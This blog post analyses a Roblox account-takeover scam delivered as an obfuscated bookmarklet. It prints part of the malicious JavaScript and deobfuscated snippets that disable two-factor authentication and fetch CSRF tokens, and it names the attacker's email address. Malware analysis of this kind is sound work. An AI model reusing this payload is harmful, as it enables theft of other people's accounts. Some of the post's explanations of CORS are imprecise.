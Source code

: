 ```yaml
---
title: Bookmarklets as XSS Attack Vectors
date: 2024-06-09 05:08:01 +0800
categories: [Malware Analysis]
tags: [javascript,xss,analysis]     # TAG names should always be lowercase
pin: true
---
```


## The Target

Some of us are lucky when it comes to investing. My friend (known as Gary from here on out) is one of these, but not in a way you might expect. Gary started playing Roblox when he was young just as I and many other kids did.
However, Gary took a liking to collecting hats and clothing on the website. He spent whatever birthday money and allowances he got on viking hats and fire-themed balaclavas for his avatar.

This seemed like a bit of a waste of money - at the time. Fast forward to nearly 10 years later, and now his vast collection is worth several thousand REAL dollars. Unfortunately, this amount of wealth comes with 
a large target on his back. Hackers are constantly attempting to get access to his items, through scam websites and malicious emails.

## The Attack

Recently, Gary got a message asking if someone could make some fanart of his unique avatar. He said sure. The artist responded they would start soon, but need him to send over a special texture map of his avatar. 
As far as I am told, this isnt completely out of the ordinary. The texture map can help a lot with correctly modeling avatars in animations, for example.

But then the artist sent Gary a link to a website - which I will not include here for obvious reasons - containing a 'bookmarkable button' to quickly generate texture maps for his avatar. How convenient and not suspicious 
at all!

Gary immediately asked me to take a look and see if the website was malicious or not. So I did. And boy did I find some stuff.

The website was relatively barebones except for a giant link-button and 'walkthrough' video explaining how to properly use it. The first thing I did was inspect the website's source. I couldn't help but immediately
notice a hilariously suspicious anchor element:

```javascript
<a href="javascript:const%20_0x4cc798%3D_0x2001%3B%28function%28_0x5d8d84%2C_0x388ac2%29%7Bconst%20_0x108b54%3D_0x2001%2C_0x39dcc9%3D_0x5d8d84%28%29%3Bwhile%28%21%21%5B%5D%29%7Btry%7Bconst%20_0x1b78d8%3D-parseInt%28_0x108b54%280x185%29%29%2F0x1%2A%28parseInt%28_0x108b54%280xc3%29%29%2F0x2%29%2B-parseInt%28_0x108b54%280x183%29%29%2F0x3%2A%28parseInt%28_0x108b54%280x152%29%29%2F0x4%29%2B-parseInt%28_0x108b54%280x17c%29%29%2F0x5%2B-parseInt%28_0x108b54%280x162%29%29%2F0x6%2A%28-parseInt%28_0x108b54%280xc2%29%29%2F0x7%29%2BparseInt%28_0x108b54%280x144%29%29%2F0x8%2B-parseInt%28_0x108b54%280x111%29%29%2F0x9%2BparseInt%28_0x108b54%280x142%29%29%2F0xa%2A%28parseInt%28_0x108b54%280xca%29%29%2F0xb%29%3Bif%28_0x1b78d8%3D%3D%3D_0x388ac2%29break%3Belse%20_0x39dcc9%5B%27push%27%5D%28_0x39dcc9%5B%27shift%27%5D%28%29%29%3B%7Dcatch%28_0x5c0eac%29%7B_0x39dcc9%5B%27push%27%5D%28_0x39dcc9%5B%27shift%27%5D%28%29%29%3B%7D%7D%7D%28_0x219d%2C0x1dfe2%29%2Cwindow%5B_0x4cc798%280xe9%29%5D%3Ddocument%5B_0x4cc798%280x110%29%5D%28_0x4cc798%280x169%29%29%5B0x0%5D%5B%27getAttribute%27%5D%28_0x4cc798%280x11a%29%29%2Cwindow%5B_0x4cc798%280xbd%29%5D%3D%27%27%29%3Bfunction%20_0x2001%28_0x34f505%2C_0x56e9bf%29%7Bconst%20_0x219db2%3D_0x219d%28%29%3Breturn%20_0x2001%3Dfunction%28_0x20010f%2C_0x526ece%29%7B_0x20010f%3D_0x20010f-0xa3%3Blet%20_0x3a8f3e%3D_0x219db2%5B_0x20010f%5D%3Breturn%20_0x3a8f3e%3B%7D%2C_0x2001%28_0x34f505%2C_0x56e9bf%29%3B%7Dconst%20acceptableHeaders%3D%7B%27accept%27%3A%27application%2Fjson%2C%5Cx20text%2Fplain%2C%5Cx20%2A%2F%2A%27%2C%27accept-language%27%3A_0x4cc798%280x13e%29%2C%27sec-ch-ua%27%3A_0x4cc798%280x116%29%2C%27sec-ch-ua-mobile%27%3A%27%3F0%27%2C%27sec-ch-ua-platform%27%3A_0x4cc798%280xa6%29%2C%27sec-fetch-dest%27%3A_0x4cc798%280x14c%29%2C%27sec-fetch-mode%27%3A_0x4cc798%280xa4%29%2C%27sec-fetch-site%27%3A_0x4cc798%280xec%29%2C%27sec-gpc%27%3A%271%27%7D%2CyourSitesURL%3D_0x4cc798%280xae%29%2CgetCsrfToken%3Dasync%28%29%3D%3E%7Bconst%20_0x3d5a96%3D_0x4cc798%2C_0x313a18%3Dawait%20fetch%28%27https%3A%2F%2Fapis.roblox.com%2Fuser-settings-api%2Fv1%2Fuser-settings%3FwhoCanJoinMeInExperiences%3DFollowers%27%2C%7B%27credentials%27%3A%27include%27%2C%27headers%27%3AacceptableHeaders%2C%27method%27%3A%27POST%27%2C%27mode%27%3A_0x3d5a96%280xa4%29%7D%29%5B_0x3d5a96%280x12b%29%5D%28_0x498197%3D%3E%7B%7D%29%3Bif%28%21_0x313a18%29return%20await%20getCsrfToken%28%29%3Blet%20_0x11d173%3D_0x313a18%5B_0x3d5a96%280xf8%29%5D%5B_0x3d5a96%280x129%29%5D%28_0x3d5a96%280xd4%29%29%3Bif%28%21_0x11d173%29return%20await%20getCsrfToken%28%29%3Breturn%20_0x11d173%3B%7D%2CunlockAccountByPin%3Dasync%20_0x181c0c%3D%3E%7Bconst%20_0xe09cf9%3D_0x4cc798%3Bfetch%28%27https%3A%2F%2Fauth.roblox.com%2Fv1%2Faccount%2Fpin%2Funlock%3Fpin%3D%27%2B_0x181c0c%2C%7B%27headers%27%3A%7B%27accept%27%3A_0xe09cf9%280xa9%29%2C%27accept-language%27%3A_0xe09cf9%280x13e%29%2C%27content-type%27%3A%27application%2Fjson%3Bcharset%3DUTF-8%27%2C%27sec-ch-ua%27%3A_0xe09cf9%280x116%29%2C%27sec-ch-ua-mobile%27%3A%27%3F0%27%2C%27sec-ch-ua-platform%27%3A_0xe09cf9%280xa6%29%2C%27sec-fetch-dest%27%3A_0xe09cf9%280x14c%29%2C%27sec-fetch-mode%27%3A_0xe09cf9%280xa4%29%2C%27sec-fetch-site%27%3A_0xe09cf9%280xec%29%2C%27sec-gpc%27%3A%271%27%2C%27x-csrf-token%27%3Aawait%20getCsrfToken%28%29%7D%2C%27referrer%27%3A_0xe09cf9%280xa3%29%2C%27referrerPolicy%27%3A_0xe09cf9%280xc0%29%2C%27body%27%3A_0xe09cf9%280x160%29%2B_0x181c0c%2B%27%5Cx22%7D%27%2C%27method%27%3A_0xe09cf9%280x137%29%2C%27mode%27%3A_0xe09cf9%280xa4%29%2C%27credentials%27%3A_0xe09cf9%280x12f%29%7D%29%5B%27then%27%5D%28_0xbcaa97%3D%3E_0xbcaa97%5B_0xe09cf9%280x178%29%5D%28%29%29%5B_0xe09cf9%280x108%29%5D%28async%20_0x1cbef2%3D%3E%7Bconst%20_0x25f449%3D_0xe09cf9%3Bif%28_0x1cbef2%5B%27includes%27%5D%28_0x25f449%280x143%29%29%29document%5B_0x25f449%280x151%29%5D%28_0x25f449%280x156%29%29%5B_0x25f449%280xad%29%5D%28_0x25f449%280x172%29%2C_0x181c0c%29%2CsetDescription%28%7B%27pin%27%3A_0x181c0c%7D%29%2CcontinueToTwoStep%28%29%2Cconsole%5B_0x25f449%280x14e%29%5D%28_0x25f449%280xcf%29%29%2Cdocument%5B_0x25f449%280xc6%29%5D%28%27PIN%27%29%5B_0x25f449%280xc1%29%5D%5B_0x25f449%280x13f%29%5D%3D_0x25f449%280x139%29%3Belse%20_0x1cbef2%5B_0x25f449%280xb3%29%5D%28_0x25f449%280xff%29%29%3Fdocument%5B_0x25f449%280xc6%29%5D%28_0x25f449%280x102%29%29%5B_0x25f449%280x125%29%5D%3D_0x25f449%280x164%29%3Adocument%5B_0x25f449%280xc6%29%5D%28_0x25f449%280x102%29%29%5B%27innerHTML%27%5D%3D_0x25f449%280x146%29%3B%7D%29%3B%7D%2CcreateOTPsession%3Dasync%28%29%3D%3E%7Bconst%20_0x1f209f%3D_0x4cc798%2C_0x1c30af%3Dawait%20fetch%28_0x1f209f%280xc5%29%2C%7B%27credentials%27%3A_0x1f209f%280x12f%29%2C%27headers%27%3A%7B%27Accept%27%3A_0x1f209f%280xa9%29%2C%27Accept-Language%27%3A%27en-US%2Cen%3Bq%3D0.5%27%2C%27Content-Type%27%3A_0x1f209f%280x136%29%2C%27x-csrf-token%27%3Aawait%20getCsrfToken%28%29%2C%27Sec-GPC%27%3A%271%27%2C%27Sec-Fetch-Dest%27%3A_0x1f209f%280x14c%29%2C%27Sec-Fetch-Mode%27%3A_0x1f209f%280xa4%29%2C%27Sec-Fetch-Site%27%3A_0x1f209f%280xec%29%7D%2C%27referrer%27%3A%27https%3A%2F%2Fwww.roblox.com%2F%27%2C%27body%27%3A_0x1f20
```

Clearly this was some obfuscated JavaScript. Even taking a look at some of the strings was damning - `creteOTPsession`, `getCsrfToken`, etc. I immediately told Gary to stop talking to this guy and block him.

But I decided to go a bit deeper and started deobfuscating the JavaScript. Hilariously, the author actually just used [this](https://deobfuscate.io/) link, so the process was fairly trivial. However, local variable
names were obviously still random hex strings and unable to be recovered.

## The Payload

As expected, the payload JavaScript was a large amount of fetch requests to endpoints related to account settings and security:

```javascript
const disable2fa = async (_0x28bbe9, _0x197e35, _0x4fe56d) => {
  _0x197e35 = _0x197e35 || 0x0;
  _0x197e35++;
  if (_0x197e35 >= 0x3) {
    return;
  }
  let _0x42560a = await fetch("https://twostepverification.roblox.com/v1/users/" + _0x28bbe9 + "/configuration/authenticator/disable", {
    'headers': Object.assign(acceptableHeaders, {
      'x-csrf-token': window.csrf
    }),
    'referrer': "https://www.roblox.com/",
    'referrerPolicy': "strict-origin-when-cross-origin",
    'method': "POST",
    'mode': 'cors',
    'credentials': 'include'
  })['catch'](() => {});
  if (_0x42560a.status === 0x193) {
    _0x4fe56d = _0x42560a.headers.get("x-csrf-token");
    await disable2fa(_0x28bbe9, _0x197e35, _0x4fe56d);
  } else {
    return true;
  }
```

Perhaps the most interesting part of the entire payload was the very first fetch request made. Before accessing any user settings or inventory listings, the script makes a call to lookup details for a user with
ID 6055914656 - 'badmilky22':

```javascript
fetch("https://users.roblox.com/v1/users/6055914656", {
  'headers': {
    'accept': "application/json, text/plain, */*",
    'accept-language': "en-GB,en-US;q=0.9,en;q=0.8",
    'sec-ch-ua': "\"Chromium\";v=\"118\", \"Brave\";v=\"118\", \"Not=A?Brand\";v=\"99\"",
    'sec-ch-ua-mobile': '?0',
    'sec-ch-ua-platform': "\"Windows\"",
    'sec-fetch-dest': 'empty',
    'sec-fetch-mode': "cors",
    'sec-fetch-site': "same-site",
    'sec-gpc': '1'
  },
  'referrer': "https://www.roblox.com/",
  'referrerPolicy': "strict-origin-when-cross-origin",
  'method': 'GET',
  'mode': "cors",
  'credentials': 'include'
```

After the call, the payload then passes the user's bio/description into the `parseBinary` function:

```javascript
const evil_email = parseBinary(_0x5dd11c.description);
```

That's odd. Why would it do that? Well, I decided to look at badmilky22's account description. It was just a bunch of binary:

![badmilky22](/assets/img/badmilky22.png)

Decoding this to ASCII gives the hacker's email address `lr46opcs@fastsearcher.com`! Later on in the payload, this email address is used when victim account details are hijacked.

Afterwards, the payload does some pretty standard hacker stuff like resetting passwords and disabling 2FA. 

## But... what about CORS?

I couldn't understand how the payload managed to get around CORS. For those of you unaware, Cross Origin Resource Sharing (CORS) is a security setting for HTTP that can easily stop CSRF attacks like this. The
gist is that JavaScript from another 'Origin' (i.e. not roblox.com) should NOT be able to make credentialed requests or access HTTP responses from credentialed requests on behalf of a user. In this case, the
malicious 'link' (`<a/>` tag) element embedded with obfuscated JavaScript should NOT be able to successfully make these malicious requests on behalf of a user.

At first I was convinced that this guy just didn't know what he was doing, but then I realized that the malicious domain site had been registered only 5 days prior, and that clearly some thought was put into this
payload. So I decided to watch the 'walkthrough' video. The video instantly clarified everything for me - the bookmark the site wanted you to make was NOT to the malicious domain, but to literally drag and drop
the link-button onto your bookmarks bar.

This creates what modern browsers call Bookmarklets - or 'bookmarks' that are actually just JavaScript code. This is incredibly valuable in a cross-site scripting attack as it can easily bypass any CORS restrictions.
As far as I am aware, this isn't a very widely used or discussed attack vector. The implications of 'stored-xss' on any origin site are massive. 

## Conclusion

It seems that this is simply an accepted facet of modern browsers. I personally have never heard of someone using bookmarklets for a legitimate purpose, and the attack implications are critical. I would seriously 
recommend Mozilla and Chrome consider disabling telemetry for JavaScript-enabled bookmarklets, or including a custom origin/header for bookmarklet requests.


